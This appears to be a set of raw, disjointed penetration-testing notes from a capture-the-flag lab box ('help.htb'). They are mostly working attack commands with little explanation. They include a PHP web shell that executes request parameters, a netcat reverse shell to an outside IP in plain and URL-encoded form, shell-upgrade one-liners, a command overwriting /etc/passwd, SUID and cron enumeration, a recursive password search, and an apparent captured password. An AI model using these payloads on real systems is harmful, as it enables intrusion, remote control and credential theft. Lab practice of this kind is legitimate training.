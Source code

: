 

#### upload simple-backdoor.php

```
locate simple-backdoor.php
<?php
if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}
?>
Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd
```

ippsec php-backdoor.php
this one didn't work fully it would just hang

<?php system($_REQUEST['CMD']) ?>

query server nodejs json

< X-Powered-By: Express
X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
Content-Type: application/json; charset=utf-8

curl -v --head help.htb:3000

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.14 9051 >/tmp/f

url encode it either using the encoder or highlight right clicking in the repeater tab

%72%6d%20%2f%74%6d%70%2f%66%3b%6d%6b%66%69%66%6f%20%2f%74%6d%70%2f%66%3b%63%61%74%20%2f%74%6d%70%2f%66%7c%2f%62%69%6e%2f%73%68%20%2d%69%20%32%3e%26%31%7c%6e%63%20%31%30%2e%31%30%2e%31%34%2e%31%34%20%39%30%35%31%20%3e%2f%74%6d%70%2f%66



```bash
python -c 'import pty; pty.spawn("/bin/bash")'  
python -c 'import pty; pty.spawn("/bin/sh")'  
```

 mv /tmp/passwd.bak /etc/passwd

ROOT

HISTORY

rOOTmEoRdIE!

find / -perm 4000- type f -exec ls -ld {} \; 2>&1 | grep -v "denied"

cat /etc/cron*

grep -rnw password /
